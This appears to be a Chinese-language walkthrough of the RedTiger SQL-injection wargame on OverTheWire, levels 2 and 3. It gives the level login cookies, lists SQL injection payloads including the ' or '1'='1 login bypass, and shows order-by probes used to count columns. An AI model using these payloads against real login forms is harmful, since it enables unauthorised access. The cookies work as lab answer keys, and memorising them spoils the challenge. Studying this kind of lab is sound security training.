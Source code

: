 ## level2

```
curl "http://redtiger.labs.overthewire.org/level2.php" -H "Cookie: level2login=4_is_not_random" 
```
首先点击登陆按钮，抓取登陆数据包。有如下字段
	
	username=admin&password=admin&login=Login
先对`username`进行注入点测试，并尝试万能用户名。无果而返。
```
admin'
admin' --+
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1%23
admin')or('1'='1
```
接着对password测试：
```
'
```
但是得到的返回信息为：
	
	<b>Warning</b>:  mysql_num_rows() expects parameter 1 to be resource, boolean given in <b>/var/www/html/	hackit/level2.php</b> on line <b>48</b><br />
	Login incorrect!
说明存在字符型注入点。这就好办了。直接上sql万能密码
```
admin
' or '1'='1
```

## level3

```
curl "http://redtiger.labs.overthewire.org/level3.php" -H "Cookie: level3login=feed_your_cat_before_your_cat_feeds_you" 
```


```
Admin'
MDQyMjExMDE0MTgyMTQwMTc0
Admin' and '1'='2
MDQyMjExMDE0MTgyMTQwMTc0MjIzMDg5MjA0MTAxMjUzMjE5MDI0MjMyMDY2MDY2MjM3
Admin' and '1'='1
MDQyMjExMDE0MTgyMTQwMTc0MjIzMDg5MjA0MTAxMjUzMjE5MDI0MjMyMDY2MDY2MjM4
```

```
Admin' order by 8#
MDQyMjExMDE0MTgyMTQwMTc0MjIzMDg3MjA4MTAxMTg0MTQyMDA5MTczMDA2MDY5MjMxMDY2 # 报错
Admin' order by 7#
MDQyMjExMDE0MTgyMTQwMTc0MjIzMDg3MjA4MTAxMTg0MTQyMDA5MTczMDA2MDY5MjMyMDY2 # 不报错
```
